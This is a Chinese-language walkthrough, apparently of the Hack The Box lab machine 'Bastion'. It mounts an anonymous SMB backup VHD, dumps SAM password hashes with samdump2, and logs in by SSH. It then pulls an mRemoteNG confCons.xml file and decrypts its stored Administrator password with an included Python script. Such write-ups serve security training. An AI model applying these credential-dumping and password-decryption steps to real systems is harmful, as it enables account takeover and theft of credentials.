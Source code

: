 # Bastion\_134

![image-20200917085913924](assets/Bastion_134.assets/image-20200917085913924.png)

![image-20200709053627288](assets/Bastion_134.assets/image-20200709053627288.png)

![image-20200709053706409](assets/Bastion_134.assets/image-20200709053706409.png)

![image-20200709054532295](assets/Bastion_134.assets/image-20200709054532295.png)

![image-20200709054745325](assets/Bastion_134.assets/image-20200709054745325.png)

![image-20200709050537432](assets/Bastion_134.assets/image-20200709050537432.png)

![image-20200709054345021](assets/Bastion_134.assets/image-20200709054345021.png)

![image-20200709054953264](assets/Bastion_134.assets/image-20200709054953264.png)

而windows备份中

![image-20200709083245936](assets/Bastion_134.assets/image-20200709083245936.png)

将vhd挂载到本地

可以参考[https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25进行简单的挂载，](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25进行简单的挂载，)

也可以通过下面的命令进行挂载

```bash
sudo mkdir /mnt/L4mpje-PC
sudo mkdir /mnt/vhd
sudo modprobe nbd
sudo mount -t cifs //10.10.10.134/Backups/WindowsImageBackup/L4mpje-PC  /mnt/L4mpje-PC/ -o user=anonymous
sudo qemu-nbd -r -c /dev/nbd0 "/mnt/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd"
sudo mount -r /dev/nbd0p1 /mnt/vhd
```

挂载之后在`Windows/System32/config`使用samdump来转储hash

```bash
samdump2 SYSTEM SAM
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

![image-20200709084844645](assets/Bastion_134.assets/image-20200709084844645.png)

```bash
L4mpje:26112010952d963c8dc4217daec986d9:bureaulampje
```

```bash
ssh L4mpje@10.10.10.134
```

![image-20200709073651853](assets/Bastion_134.assets/image-20200709073651853.png)

![image-20200709074611738](assets/Bastion_134.assets/image-20200709074611738.png)

参考[http://cosine-security.blogspot.com/2011/06/stealing-password-from-mremote.html](http://cosine-security.blogspot.com/2011/06/stealing-password-from-mremote.html)

如果您不知道mRemote是Windows的选项卡式远程连接管理器。它可以存储和管理许多不同的连接，其中主要是RDP，VNC和SSH。它是必须远程访问许多计算机的IT支持人员中的一种流行工具。

在mRemote中保存连接时，它将所有这些数据输出到本地AppData文件夹中的XML报告中。密码以加密格式保存，但这是微不足道的。使用AES-128-CBC Rijndael加密对密码进行加密，然后将IV预先添加到已编码的密码中，然后对所有内容进行base64编码以输出到XML。使用的加密密钥是字符串“ mR3m”的md5哈希。因此，要解密这些密码，我们遵循一个简单的过程：

示例密码：28kQ15DF4kdW34Mx2 + fh + NWZODNSoSPek7ug + ILvyPE =

 获取mR3m的md5哈希并将其转换为字节值： xc8  xa3  x9d  xe2  xa5  x47  x66  xa0  xda  x87  x5f  x79  xaa  xf1  xaa  x8c ​ base64解码保存的密码数据 ​ 取解码数据的前16个字节，并将其设置为初始化矢量（IV） ​ 运行AES-128-CBC解密，将您的密码文本（解码文本中的剩余字节），IV（前16个字节）和密钥（ xc8  xa3  x9d  xe2  xa5  x47  x66  xa0  xda  x87  x5f  x79  xaa  xf1  xaa  x8c） ​ 您应该获得解密的密码：password1

简单易用，您现在即可解密所有这些美味的RDP，VNC和SSH密码。为了使一切变得更加容易，我编写了一个新的Metasploit POST模块，它将在受感染机器上找到XML文件并为您解密这些密码。我刚刚将其提交给Redmine，因此尚未添加，但请注意。我怀疑它将很快在那里。

同时网上存在已经很棒的基于msf模块所写成的离线解密脚本

```python
#!/usr/bin/env python3

import base64
import hashlib
import re
import sys
from Cryptodome.Cipher import AES

if len(sys.argv) != 2:
     print(f"[-] Usage: {sys.argv[0]} [confCons.xml]")
     sys.exit()

try:
     with open(sys.argv[1], 'r') as f:
         conf = f.read()
except FileNotFoundError:
     print(f"[-] Unable to open {sys.argv[1]}")
     sys.exit()

mode = re.findall('BlockCipherMode="(\w+)"', conf)
if len(mode) !=1:
     print("[-] Warning - No BlockCipherMode detected")
elif mode[0] != 'GCM':
     print(f"[-] Warning - This script is for AES GCM Mode. {mode} detected")

nodes = re.findall('<Node .+/>', conf)
if len(nodes) > 0:
    print(f"[+] Found nodes: {len(nodes)}\n")
else:
    print("[-] Found no nodes")
for node in nodes:
    user = re.findall(' Username="(\w*)"', node)[0]
    enc = base64.b64decode(re.findall(' Password="([^ ]+)"', node)[0])
    salt = enc[:16]
    nonce = enc[16:32]
    cipher = enc[32:-16]
    tag = enc[-16:]
    key = hashlib.pbkdf2_hmac("sha1", b"mR3m", salt, 1000, dklen=32)
    aes = AES.new(key, AES.MODE_GCM, nonce=nonce)
    aes.update(salt)
    password = aes.decrypt_and_verify(cipher, tag).decode()
    print(f"Username: {user}\nPassword: {password}\n")
```

按照漏洞利用方法，找到存有凭证的xml文件

![image-20200709080038464](assets/Bastion_134.assets/image-20200709080038464.png)

由于我们有ssh的凭证可以使用scp将文件传输回kali

```bash
scp l4mpje@10.10.10.134:./AppData/Roaming/mRemoteNG/confCons.xml .
```

![image-20200709080350756](assets/Bastion_134.assets/image-20200709080350756.png)

```bash
python3 mRemoteO_PwdsDecrypt.py confCons.xml
```

![image-20200709082000728](assets/Bastion_134.assets/image-20200709082000728.png)

```bash
Administrator:thXLHM96BeKL0ER2
```

ssh登录

![image-20200709082401555](assets/Bastion_134.assets/image-20200709082401555.png)

![image-20200709082424192](assets/Bastion_134.assets/image-20200709082424192.png)

